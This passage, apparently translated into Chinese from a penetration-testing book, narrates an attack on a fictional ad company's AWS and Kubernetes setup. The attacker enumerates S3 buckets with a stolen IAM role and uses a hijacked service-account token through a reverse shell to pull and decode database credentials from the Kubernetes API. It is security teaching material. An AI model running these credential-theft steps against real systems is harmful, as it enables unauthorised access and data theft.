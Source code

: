```
```

终于！经过无数次尝试，我们终于找到了一个拥有 `ListBuckets` 权限的 IAM 角色。这花了一些时间！

不要太兴奋了。我们确实可以列出桶，但这并不能说明我们是否能够从这些桶中检索单个文件。然而，通过查看桶列表，我们获得了对 MXR Ads 操作模式的新见解。

例如，桶 mxrads-terraform 很可能存储了 *Terraform* 生成的状态，Terraform 是一个用于设置和配置云资源（如服务器、数据库和网络）的工具。状态是所有由 Terraform 生成和管理的资产的声明性描述，例如服务器的 IP、子网、IAM 角色、与每个角色和用户关联的权限等等。它甚至存储明文密码。即使我们的目标使用了像 Vault、AWS 密钥管理服务（KMS）或 AWS Secrets Manager 这样的密钥管理工具，Terraform 也会动态解密这些密码并将其明文版本存储在状态文件中。哦，我们愿意为访问那个桶付出什么代价。让我们试试看：

```
root@Point1:~/# **aws s3api list-objects-v2 --bucket mxrads-terraform**

An error occurred (AccessDenied) when calling the ListObjectsV2 operation:
Access Denied
```

唉，运气不好。凡事都得慢慢来。让我们回到我们的桶列表。

我们确认至少有一个桶 api-core 应该能够访问：s4d.mxrads.com，这是存储所有创意文件的桶。我们将使用我们的 IAM 权限列出该桶的内容：

```
root@Point1:~/# **aws s3api list-objects-v2 --bucket s4d.mxrads.com > list_creatives.txt**
root@Point1:~/# **head list_creatives.txt**
{"Contents": [{
  "Key": "2aed773247f0203d5e672cb/125dad49652436/vid/720/6aa58ec9f77af0c0ca497f90c.mp4",

  "LastModified": "2015-04-08T22:01:48.000Z",
`--snip--`
```

嗯……是的，我们确实有权限访问 MXR Ads 在广告活动中使用的所有视频和图片，但我们不打算下载并播放数以 TB 计的媒体广告，只为找出 Gretsch Politico 使用的广告内容。肯定有更好的方法来检查这些文件。

是的，记得我们几分钟前获取的 Kubernetes 服务账户令牌吗？我们匆忙将其转换为 AWS 凭证，以至于几乎忘记了它本身所拥有的权限。那个服务账户是获取归属于 api-core pod 的集群资源的金钥匙。你猜猜 api-core 需要什么属性才能运行？数据库凭证！我们将利用数据库访问权限，瞄准 Gretsch Politico 的创意内容，然后使用我们新获得的 IAM 权限从 S3 下载这些视频。

### 滥用服务账户权限

我们回到忠实的反向 shell，发出一条新的 `curl` 命令给 API 服务器，这次带上了 api-core 的 JWT。我们请求在 pod 描述中找到的机密 `dbCorepassword`：

```
shell> **export TOKEN="ewJabazetzezet..."**
shell> **curl -Lk \**
**https://10.100.0.1/api/v1/namespaces/prod/secrets/dbCorepassword \**
**--header "Authorization: Bearer $TOKEN"**
{
    "kind": "Secret",
    "data": {
      "user": "YXBpLWNvcmUtcnc=",
      "password": "ek81akxXbGdyRzdBUzZs" }}
```

接着我们解码用户名和密码：

```
root@Point1:~/# **echo YXBpLWNvcmUtcnc= |base64 -d**
api-core-rw
root@Point1:~/# **echo ek81akxXbGdyRzdBUzZs |base64 -d**
zO5jLWlgrG7AS6l
```
